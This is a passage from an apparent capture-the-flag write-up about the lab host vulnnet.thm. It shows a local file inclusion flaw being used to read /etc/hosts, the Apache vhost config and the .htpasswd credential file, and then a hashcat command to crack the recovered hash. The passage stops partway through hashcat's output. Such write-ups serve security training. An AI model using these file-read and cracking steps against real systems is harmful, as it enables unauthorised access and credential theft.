 It will include any file we pass as the referer. Only removing `../`. I can easily bypass that by using absolute paths.

Next I tried loading the Apache logs to see if I could use log poisoning, this didn't work. I loaded `/etc/hosts` and found the host `broadcast.vulnnet.thm`. I tried going to it, but it was protected by basic auth and I didn't have any credentials. 

Next I tried looking at the [vhost information](view-source:http://vulnnet.thm/index.php?referer=/etc/apache2/sites-enabled/000-default.conf).
 
 ```
 <VirtualHost *:80>
	ServerAdmin webmaster@localhost
	ServerName vulnnet.thm
	DocumentRoot /var/www/main
	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined
	<Directory /var/www/main>
		Order allow,deny
		allow from all
	</Directory>
</VirtualHost>

<VirtualHost *:80>
	ServerAdmin webmaster@localhost
	ServerName broadcast.vulnnet.thm
	DocumentRoot /var/www/html
	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined
	<Directory /var/www/html>
		Order allow,deny
		allow from all
		AuthType Basic
		AuthName "Restricted Content"
		AuthUserFile /etc/apache2/.htpasswd
		Require valid-user
	</Directory>
</VirtualHost>
 ```
 
 This confirmed what I already knew, there is a site at `broadcast.vulnnet.thm`. But it also show that the basic auth credentials are stored in `/etc/apache2/.htpasswd`.
 
I loaded that [file with the LFI]( view-source:http://vulnnet.thm/index.php?referer=/etc/apache2/.htpasswd) vulnerability. It contained only one line.
 
 ```
 developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
 ```

I used the [hashcat Example Hashes page]( https://hashcat.net/wiki/doku.php?id=example_hashes) to identify the hash type, and the mode to use. Then started hashcat to brute force the password.

```bash
hashcat -a0 -m 1600 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...
...
Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
...
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385
...

```